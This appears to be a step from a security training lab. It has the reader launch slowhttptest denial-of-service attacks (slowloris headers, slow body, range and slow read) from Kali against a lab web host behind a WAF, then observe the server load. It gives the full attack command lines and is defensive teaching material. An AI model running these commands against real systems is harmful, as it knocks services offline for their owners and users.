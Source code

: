 SLOWHTTPTEST
=======================

   a. (Kali) Browse to slowhttptest directory and execute attack

      i.  # cd /root/Agility/slowhttptest

      ii. # slowhttptest -c 1000 -H -g -o slowloris\_stats\_lab3 -i 10
          -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com -x
          24 -p 3

   b. Observe impact

      i.   Is site available?

      ii.  Review LTM virtual Server statistics

      iii. (Hackazon) Review Server Stats

           1. # top

           2. # free –m

   c. (Kali) Stop Attack

   d. (Optional) Try some other variants of slowhttptest

      i.   # slowhttptest -c 1000 -B -g -o slowloris\_stats\_lab3.1 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Slow body attack

      ii.  # slowhttptest -c 1000 -R -g -o slowloris\_stats\_lab3.2 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Range attack

      iii. # slowhttptest -c 1000 -X -g -o slowloris\_stats\_lab3.3 -i
           10 -r 200 -s 8192 -t GET -u http://hackazon-waf.f5agility.com
           -x 24 -p 3

           1. Slow read
